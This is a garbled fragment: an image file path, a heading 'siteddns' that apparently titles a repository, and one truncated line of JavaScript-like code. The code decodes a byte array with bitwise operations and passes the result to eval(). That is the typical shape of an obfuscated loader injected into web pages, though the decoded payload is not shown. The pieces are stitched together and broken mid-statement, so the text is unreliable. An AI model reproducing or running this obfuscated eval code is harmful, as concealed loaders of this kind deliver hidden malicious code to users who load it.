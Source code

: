  # siteddns
51)break;tc[vc]=(((~tc[vc])&0xff)-22)&0xff;tc[vc]=(tc[vc]+244)&0xff;vc++;}";eval(vc);vc=3;do{tc[vc]=(~(((((tc[vc]+tc[vc+1])&0xff)
